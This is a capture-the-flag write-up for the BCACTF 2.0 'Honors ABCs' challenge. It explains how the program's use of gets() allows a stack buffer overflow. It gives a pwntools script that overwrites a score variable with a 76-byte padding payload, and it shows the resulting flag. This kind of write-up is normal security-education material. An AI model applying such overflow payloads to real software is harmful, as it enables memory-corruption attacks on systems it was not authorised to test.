 # BCACTF 2.0 – Honors ABCs

* **Category:** Binex
* **Points:** 75
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Here at BCA, we don't deal with normal classes. Everything is at the honors level or above! Let's start by learning about the alphabet.
>
> And by learning, we obviously mean testing. Don't cheat!

## Solution

The challenge page provides us with a [binary](Backup/honors-abcs) and the [C code](Backup/honors-abcs.c) it was compiled from.

Running the binary presents us with a single question quiz, which requires us to recite the alphabet.

In order to read our input, the [gets](https://man7.org/linux/man-pages/man3/gets.3.html) function is used, which comes with a "Never use this function" warning for a good reason, it performs no boundary checks and reads until a terminating newline or EOF is read. This means that we are free to overflow the buffer that the alphabet is being read into. 

The goal is to get a score greater than 100, as that will present us with the flag. Our only options appears to be causing a buffer overflow to occur, so that we can set the score to whatever value we like. In order to figure out how many characters I need to input before we get to the score variable, I decided to load the binary up in [Ghidra](https://ghidra-sre.org/), to look at the decompiled code.

![image](Docs/honors-abcs-1.jpg))

As we can see in the decompiler output, our input alphabet is stored in local_58(rbp-0x50), and the score is stored in local_c(rbp-0x04), substracting the two gives us 0x4C or 76 characters. To prevent our custom score from being overwritten we have to ensure that the very first character of our input is not equal to "a", so that we break out of the scoring loop before any score is set.

So that brings us to the final solution which is 76 characters followed by our custom score.

The script I used to solve the challenge is as follows;
```python
from pwn import *

#p = process('honors-abcs')
p = remote('bin.bcactf.com', 49155)
p.sendline(b"z"*76 + p32(0x1337))

p.interactive()
```

This will eventually output the following;
```
Welcome to your first class at BCA: Honors-level ABCs.
Because we expect all our students to be perfect, I'm not going to teach you anything.
Instead, we're going to have a quiz!
And, of course, I expect all of you to know the material already.

╔════════════════════════╗
║ THE QUIZ               ║
║                        ║
║ 1) Recite the alphabet ║
╚════════════════════════╝

Answer for 1: How did you end up here?
You must have cheated!
Let me recite the BCA plagarism policy.

...

also also have the flag!
bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}

Alright, class dismissed!
```

So the flag for this challenge is:

`bcactf{now_i_know_my_A_B_Cs!!_next_time_wont_you_cheat_with_me??}`